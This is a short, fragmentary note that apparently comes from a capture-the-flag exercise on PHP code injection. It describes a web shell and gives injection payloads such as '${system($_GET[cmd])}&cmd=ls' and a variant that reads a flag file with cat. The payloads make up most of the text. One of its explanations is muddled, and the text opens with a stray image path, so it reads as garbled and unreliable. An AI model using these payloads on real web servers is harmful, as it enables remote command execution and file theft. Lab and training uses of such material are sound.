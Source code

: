 web shell is a shell script that can execute system commands in the web server

```php

 Parameter: ${system($_GET[cmd])}&cmd=ls
 
 Its same as ${system($_GET[ls])}
// in this scenario we use system for execute system commands

${system($_GET[cmd])}&cmd=cat ../flagzkDx6
```

